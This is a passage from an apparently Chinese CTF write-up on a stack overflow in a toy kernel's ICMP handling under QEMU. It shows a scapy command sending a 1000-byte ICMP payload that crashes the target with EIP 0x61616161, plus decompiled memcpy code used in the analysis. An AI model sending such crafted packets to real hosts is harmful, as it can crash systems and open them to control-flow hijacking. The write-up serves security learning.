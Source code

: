 看起来是成功了，不过还没有很确定，所以首先我们应该能更精准控制发送的ping包，所以使用scapy进行发包：

```python
from scapy.all import *
send(IP(dst="10.11.11.3")/ICMP()/(b'a'*1000))
```

发送后，目标崩溃打印的信息中的0x61616161，看起来的确像控制流劫持了：

```c
➜  sudo ./run.sh
WARNING: Image format was not specified for '/tmp/flag.txt' and probing guessed raw.
         Automatically detecting the format is dangerous for raw images, write operations on block 0 will.
         Specify the 'raw' format explicitly to remove the restrictions.
qemu-system-i386: Trying to execute code outside RAM or ROM at 0x61616161
This usually means one of the following happened:

(1) You told QEMU to execute a kernel for the wrong machine type, and it crashed on startup (eg trying to)
(2) You didn't give QEMU a kernel or BIOS filename at all, and QEMU executed a ROM full of no-op instructd
(3) Your guest kernel has a bug and crashed by jumping off into nowhere

This is almost always one of the first two, so check your command line and that you are using the right t.
If you think option (3) is likely then you can try debugging your guest with the -d debug options; in par.

Execution cannot continue; stopping here.
```

但gdb没有断到这里，那如何更加确认呢？有两种办法，逆向和调试。

### 代码分析

看起来很像栈溢出，所以先找memcpy，容易发现，sub_108AA9就是memcpy：

```c
_BYTE *__cdecl sub_108AA9(_BYTE *a1, _BYTE *a2, int a3)
{
  _BYTE *v3; // edx
  _BYTE *v4; // eax
  _BYTE *i; // [esp+8h] [ebp-8h]

  for ( i = a1; a3--; ++i )
  {
    v3 = a2++;
    v4 = i;
    *v4 = *v3;
  }
  return a1;
}
```
